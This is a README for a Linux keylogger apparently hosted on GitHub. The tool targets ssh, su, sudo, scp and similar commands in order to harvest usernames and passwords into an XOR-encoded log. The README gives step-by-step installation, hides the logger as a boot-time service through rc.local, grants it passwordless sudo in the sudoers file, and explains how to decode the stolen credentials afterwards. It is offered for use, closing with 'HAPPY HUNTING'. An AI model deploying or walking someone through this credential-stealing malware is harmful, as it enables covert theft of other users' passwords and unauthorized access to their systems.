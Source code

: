 # key-word-logger
Simple Linux keylogger, working with keywords.

Key-word-logger is a tool primarily based on gsingh93's "simple-key-logger", but targeting and keylogging commands like:

ssh, smb, ftp, sftp, ftps, su, sudo, scp

aiming to extract targeted information like usernames and passwords. The information is then logged in a XOR encoded file and once the file is extracted, "decoder"
is used to get the information.

MAKE SURE YOU CHANGE THE ENCODING KEYS!

Tool has been tested on:

-Ubuntu 18.10/16.04.5/14.04.5

-Debian 9.7

-CentOS 7

# Installation
1. Grab the required packages (Ubuntu/Debian)
```
$ git clone https://github.com/littlepwnie/key-word-logger.git
$ sudo apt update
$ sudo apt install git make gcc g++ autotools-dev automake
```

Or in CentOS
```
$ git clone https://github.com/littlepwnie/key-word-logger.git
$ sudo yum update
$ sudo yum install git make gcc g++ autotools-dev automake
```

2. Install
```
$ cd key-word-logger
$ make
$ sudo ./keywlogger
$ nano /etc/rc.local
```
And add:
```
/path/to/keywlogger
```
right over
```
exit 0
```
Then edit:
```
$ nano /etc/sudoers
```
And add:
```
username ALL = NOPASSWD: /path/to/keywlogger
```
Where username is to be replaced with the one of the user we want to log.

All the information we want is now logged under /var/log/keywlogger.log and upon reboot our program will run as a service. We can check it using pgrep:
```
pgrep keywlogger
```

# Use the decoder
We put the keywlogger.log file at the same directory as our decoder, then compile and run it. The decoder should return a file named “decrypted.txt” which contains the information.
```
$ gcc decoder.c -o decoder
$ ./decoder
```

# TODO

- Kernel space module

Feel free to help improve it, test it in more versions and ask any questions!
HAPPY HUNTING :D

